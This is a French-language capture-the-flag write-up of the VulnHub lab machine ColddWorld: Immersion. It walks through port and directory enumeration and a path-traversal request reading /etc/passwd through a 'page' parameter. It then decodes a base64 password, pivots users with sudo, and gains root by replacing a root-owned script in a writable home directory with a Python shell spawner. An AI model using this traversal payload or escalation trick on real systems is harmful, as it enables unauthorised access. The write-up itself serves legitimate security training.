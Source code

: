# Solution du CTF ColddWorld: Immersion de VulnHub

[ColddWorld: Immersion](https://vulnhub.com/entry/colddworld-immersion,668/) est un CTF proposé sur la plateforme VulnHub et créé par *Martin Frias* (Aka. *C0ldd*)

```
Nmap scan report for 192.168.56.108
Host is up (0.000098s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Immersion
|_http-server-header: Apache/2.4.18 (Ubuntu)
3042/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7439b1ec2a8276bc2bc58a94d6d4e14 (RSA)
|   256 6099c287ea6a1475e1b46f934f9bfd89 (ECDSA)
|_  256 7fb24af2ecdba58745922f132e5e74bd (ED25519
```

On a donc un serveur web et un SSH sur un port non standard.

## Oreilles de lapin

Le site web ne donnant rien d'intéressant on passe direct sur `Feroxbuster` pour une énumération :

```bash
$ feroxbuster -u http://192.168.56.108/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.108/
 🚀  Threads               │ 50
 📖  Wordlist              │ fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      317c http://192.168.56.108/secure
301        9l       28w      313c http://192.168.56.108/wp
301        9l       28w      313c http://192.168.56.108/js
301        9l       28w      314c http://192.168.56.108/css
301        9l       28w      316c http://192.168.56.108/login
403        9l       28w      279c http://192.168.56.108/server-status
200       17l       27w      401c http://192.168.56.108/
[####################] - 17s    62260/62260   0s      found:7       errors:0      
[####################] - 17s    62260/62260   3661/s  http://192.168.56.108/
```

Dans la page de login on trouve en commentaire HTML le message suivant :

> Hi Carls,
> 
> if you read this, I have gone on a trip, let me tell you, after the last attack we received (thanks to your inactivity as a web developer) we had to make password changes,
> 
> but since he doesn't use a mobile phone or home computers (a bit weird since you are a web developer),
> 
> I left clues on the "page" for you to find your password, I know it will be easy because you are good for detecting security flaws (or so I thought before the attack :D),
> 
> I leave your password in a file called carls.txt that is inside /var, when you get it, log in and finish your work by preparing my bash.
> 
> Greetings, c0ldd.

Assez étonnant, on doit visiblement trouver une faille qui permettra l'accès à un fichier présent dans le dossier `/var` de la machine.

L'autre point à éclaircir c'est la présence de soit disant indices dans la "page", comme ils disent entre guillemets...

`page` est un nom de variable connu pour être potentiellement vulnérable à des directory traversal.

Je rassemble la liste des URLs trouvées jusqu'à présent et j'y rajoute un paramètre `page`. Je met le tout dans un fichier `pages.txt` :

```
http://192.168.56.108/?page=hackme
http://192.168.56.108/login/?page=hackme
http://192.168.56.108/login/account.php?page=hackme
http://192.168.56.108/wp/?page=hackme
http://192.168.56.108/secure/?page=hackme
```

Puis je le fait charger par `Wapiti` via l'option `-s` :

```bash
$ wapiti -u http://192.168.56.108/ -s pages.txt --color -m file --flush-session
ujson module not found, using json

 ██╗    ██╗ █████╗ ██████╗ ██╗████████╗██╗██████╗
 ██║    ██║██╔══██╗██╔══██╗██║╚══██╔══╝██║╚════██╗
 ██║ █╗ ██║███████║██████╔╝██║   ██║   ██║ █████╔╝
 ██║███╗██║██╔══██║██╔═══╝ ██║   ██║   ██║ ╚═══██╗
 ╚███╔███╔╝██║  ██║██║     ██║   ██║   ██║██████╔╝
  ╚══╝╚══╝ ╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝   ╚═╝╚═════╝  
Wapiti 3.1.6 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module file
---
Linux local file disclosure vulnerability in http://192.168.56.108/login/account.php via injection in the parameter page
Evil request:
    GET /login/account.php?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    host: 192.168.56.108
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---

[*] Generating report...
A report has been generated in the file /home/devloop/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.56.108_02172023_1501.html with a browser to see this report.
```

Effectivement la page `account.php` (qui est la cible du formulaire de login) est bien vulnérable.

Je note la présence de ces deux utilisateurs dans le `/etc/passwd` :

```
c0ldd:x:1000:1000:c0ldd,,,:/home/c0ldd:/bin/bash
carls:x:1001:1001:,,,:/home/carls:/bin/bash
```

Et on peut accéder au fichier qui contient le mot de passe :

```
carls:Y2FybG9z
```

Le mot de passe est en base64 et se décode en `carlos`.

## So c0ldd streams

```bash
carls@Immersion:/home$ sudo -l
[sudo] password for carls: 
Coincidiendo entradas por defecto para carls en Immersion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario carls puede ejecutar los siguientes comandos en Immersion:
    (c0ldd : c0ldd) /bin/bash
```

Comme indiqué dans le message on peut *regarder* le bash de `c0ldd`.

```bash
carls@Immersion:/home$ sudo -u c0ldd /bin/bash
c0ldd@Immersion:/home$ id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd)
c0ldd@Immersion:~$ cd ~c0ldd/
c0ldd@Immersion:/home/c0ldd$ ls -al
total 40
drwxr-x--- 4 c0ldd c0ldd 4096 mar 17  2021 .
drwxr-xr-x 4 root  root  4096 mar 17  2021 ..
-rw------- 1 c0ldd c0ldd    6 mar 17  2021 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 mar 17  2021 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd 3771 mar 17  2021 .bashrc
drwx------ 2 c0ldd c0ldd 4096 mar 17  2021 .cache
-rw-r--r-- 1 root  root    33 mar 17  2021 DoNotRun.py
drwxrwxr-x 2 c0ldd c0ldd 4096 mar 17  2021 .nano
-rw-r--r-- 1 c0ldd c0ldd  655 mar 17  2021 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 mar 17  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 c0ldd c0ldd   25 mar 17  2021 user.txt
c0ldd@Immersion:/home/c0ldd$ cat user.txt 
TXV5IGJpZW4gaGVjaG8gOik=
c0ldd@Immersion:/home/c0ldd$ sudo -l
Coincidiendo entradas por defecto para c0ldd en Immersion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en Immersion:
    (root) NOPASSWD: /usr/bin/python3 /home/c0ldd/DoNotRun.py
```

Cet utilisateur peut exécuter un script Python avec les droits de root... mais le fichier appartient à root et on ne dispose pas de droits pour le modifier... pourtant :

```bash
c0ldd@Immersion:/home/c0ldd$ echo test > DoNotRun.py
bash: DoNotRun.py: Permiso denegado
c0ldd@Immersion:/home/c0ldd$ rm DoNotRun.py
rm: ¿borrar el fichero regular 'DoNotRun.py'  protegido contra escritura? (s/n) y
c0ldd@Immersion:/home/c0ldd$ ls
startup.py  user.txt
```

Je me suis entretenu avec `ChatGPT` qui était bien à l'ouest pour expliquer ce qu'il se passait, pour lui c'était objectivement impossible.

Si on fouille un peu il semble que ce soit une histoire d'inode, peut être même relatif au système de fichier utilisé (?).

Mais pour résumer dans ces situations on peut supprimer ou renomer, voire déplacer le fichier un sous-dossier sans qu'il change d'owner. Voici deux pages traitant du sujet :

[linux - How to delete a file owned by different user using a bash script? - Super User](https://superuser.com/questions/1497782/how-to-delete-a-file-owned-by-different-user-using-a-bash-script)

[linux - Why was I able to delete a file owned by root in my home directory without being root? - Server Fault](https://serverfault.com/questions/726907/why-was-i-able-to-delete-a-file-owned-by-root-in-my-home-directory-without-being)

Du coup il ne reste plus qu'à créer le script Python que l'on souhaite :

```bash
c0ldd@Immersion:/home/c0ldd$ echo 'import os;os.system("/bin/bash -p")' > DoNotRun.py 
c0ldd@Immersion:/home/c0ldd$ sudo /usr/bin/python3 /home/c0ldd/DoNotRun.py
root@Immersion:/home/c0ldd# id
uid=0(root) gid=0(root) grupos=0(root)
root@Immersion:/home/c0ldd# cd /root
root@Immersion:/root# ls
root.txt
root@Immersion:/root# cat root.txt
RmVsaWNpZGFkZXMgY3JhY2s=
```

*Publié le 17 février 2023*

